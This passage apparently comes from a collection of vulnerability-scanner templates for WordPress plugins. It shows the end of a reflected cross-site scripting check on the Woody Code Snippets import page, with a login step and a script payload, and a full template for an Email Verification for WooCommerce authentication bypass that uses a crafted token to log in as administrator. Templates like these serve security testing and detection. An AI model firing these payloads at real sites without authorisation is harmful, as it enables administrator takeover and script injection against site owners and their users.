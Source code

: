 ```
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/edit.php?post_type=wbcr-snippets&page=import-wbcr_insert_php&a"><script>alert(1)</script> HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. import-wbcr_insert_php&a\">\<script>alert(1)\</script>"
    2. Woody Code Snippets Import
- condition - and

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# Email Verification for WooCommerce \< 1.8.2 - Loose Comparison to Authentication Bypass
## Description
- Email Verification for WooCommerce Wordpress plugin prior to version 1.8.2  contains a loose comparison issue which could allow any user to log in as administrator.

- severity - critical
- tags - woocommerce,wp,wpscan,wordpress,wp-plugin
## Requests
- Method - GET
### URL
- {{BaseURL}}/my-account/?alg_wc_ev_verify_email=eyJpZCI6MSwiY29kZSI6MH0=
- {{BaseURL}}/?alg_wc_ev_verify_email=eyJpZCI6MSwiY29kZSI6MH0=
### Matchers

**Type - regex**
- part - header
- regex
    1. wordpress_logged_in_[a-z0-9]{32}
